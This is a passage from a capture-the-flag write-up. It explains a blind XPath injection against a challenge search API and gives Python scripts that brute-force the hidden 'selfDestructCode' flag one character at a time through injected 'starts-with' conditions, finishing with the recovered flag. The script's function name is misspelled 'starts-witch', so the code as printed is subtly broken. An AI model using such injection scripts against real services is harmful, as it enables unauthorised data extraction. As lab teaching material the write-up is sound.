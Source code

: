 ```
        print('No more letter could be added to the first part of the flag')
        break
    else:
        flag = res + flag
        print(flag)
```

And this gives us the string `_c0nTr0l}`. Now it seems like we're missing some parts of the flag, but if we don't use suffixes and prefixes then the string will just match parts of the flag we've already got (for instance, if we try the same method without specifying any affixes, the first character to math could be `c`, then `0` and so on until we get `c0nTr0l}`, which we already knew was part of the flag). However, we can do a bit better than this, right now we're just looking for tags named `selfDestructCode` which _contain_ some text, but we could look for the ones that start with that same text, and that way we can avoid matching parts of the flag which we already know. This can be achieved with a slight modification to the script:

```
import string
import requests

alphabet = string.ascii_lowercase + '0123456789_!.,#@$;:-' + string.ascii_uppercase

flag = ""

while True:
    res = None
    for letter in alphabet:
        searchString = "asd' or starts-witch(selfDestructCode, '" + flag + letter + "') or name='asd"
        response = requests.post('[remoteInstance]/api/search', json={'search': searchString})
        if 'success' in response.json():
            res = letter
            break
    if res == None:
        print('No more letter could be added to the first part of the flag')
        break
    else:
        flag = flag + res
        print(flag)
```

Now we get the remaining bit: `4Cc3s$`.

And that way we get the whole flag: `CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l}`
